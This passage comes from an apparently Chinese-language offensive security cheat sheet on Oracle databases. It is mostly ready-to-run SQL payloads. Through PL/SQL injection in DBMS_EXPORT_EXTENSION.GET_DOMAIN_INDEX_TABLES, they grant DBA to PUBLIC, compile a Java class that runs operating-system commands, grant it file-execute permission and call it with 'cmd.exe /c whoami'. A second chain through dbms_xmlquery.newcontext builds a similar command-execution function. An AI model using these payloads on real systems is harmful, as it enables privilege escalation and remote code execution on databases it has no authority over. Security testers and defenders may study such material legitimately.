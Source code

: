     - `DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES`
        - 利用 PL/SQL Injection 提權
        - 影響版本: Oracle 8.1.7.4, 9.2.0.1 - 9.2.0.7, 10.1.0.2 - 10.1.0.4, 10.2.0.1-10.2.0.2
        ```sql
        -- 提權
        select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS _OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''grant dba to public'''';END;'';END;--','SYS',0,'1',0) from dual
        -- 建立java command
        select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT" .PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace and compile java source named "Command" as import java.io.*;public class Command{public static String exec(String cmd) throws Exception{String sb="";BufferedInputStream in = new BufferedInputStream(Runtime.getRuntime().exec(cmd).getInputStream());BufferedReader inBr = new BufferedReader(new InputStreamReader(in));String lineStr;while ((lineStr = inBr.readLine()) != null)sb+=lineStr+"\n";inBr.close();in.close();return sb;}}'''';END;'';END;--','SYS',0,'1',0) from dual
        -- 賦予java執行權限
        select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''begin dbms_java.grant_permission( ''''''''PUBLIC'''''''', ''''''''SYS:java.io.FilePermission'''''''', ''''''''<<ALL FILES>>'''''''', ''''''''execute'''''''' );end;'''';END;'';END;--','SYS',0,'1',0) from dual
        -- 創建函數
        select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT" .PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace function cmd(p_cmd in varchar2) return varchar2 as language java name ''''''''Command.exec(java.lang.String) return String''''''''; '''';END;'';END;--','SYS',0,'1',0) from dual
        -- 賦予函數執行權限
        select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT" .PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''grant all on cmd to public'''';END;'';END;--','SYS',0,'1',0) from dual
        -- 執行指令
        select sys.cmd('cmd.exe /c whoami') from dual
        ```
    - `dbms_xmlquery.newcontext`
        - 執行多語句
        - 影響版本: oracle 10g, 11g 等，高版本已修復
        ```sql
        select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace and compile java source named "LinxUtil" as import java.io.*; public class LinxUtil extends Object {public static String runCMD(String args) {try{BufferedReader myReader= new BufferedReader(new InputStreamReader( Runtime.getRuntime().exec(args).getInputStream() ) ); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}}'';commit;end;') from dual;

        select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace function LinxRunCMD(p_cmd in varchar2) return varchar2 as language java name ''''LinxUtil.runCMD(java.lang.String) return String''''; '';commit;end;') from dual;

        select OBJECT_ID from all_objects where object_name ='LINXRUNCMD';

        select LINXRUNCMD('whoami') from dual;
        ```
- 特殊用法
    - `DBMS_XMLGEN.getXML('select user from dual')`
